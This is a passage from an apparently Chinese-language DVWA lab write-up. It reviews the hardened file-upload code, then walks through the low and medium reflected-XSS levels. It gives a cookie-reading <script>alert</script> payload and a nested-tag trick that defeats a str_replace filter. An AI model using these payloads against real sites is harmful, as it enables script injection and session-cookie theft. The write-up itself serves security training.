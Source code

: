 ```php
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

我们审计源码，发现其中有`Anti-CSRF`来预防`CSRF`。

```php
$target_file   =  md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
```

通过这步代码，将目标文件的名字最后改为MD5处理后的名字，后缀改为上传时的最后的后缀。同事临时文件tmp_file也进行相同的处理。

然后判断上传的后缀和文件类型是否符合图片的格式，符合条件，才进行存储。

# XSS(Reflected)

## low

我们首先输入1，测试发现，是将我们的输入直接输出在了html中，所以可以尝试写一段脚本进去。

```javascript
<script>alert(document.cookie)</script>
```

<img src="https://superj.oss-cn-beijing.aliyuncs.com/20200214160738.png" style="zoom:50%;" />

成功。。。

## Medium

```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

我们可以发现是将输入中存在的`<script>`更改为空。因此，我们可以输入

```js
<scr<script>ipt>alert('1');</script>
```
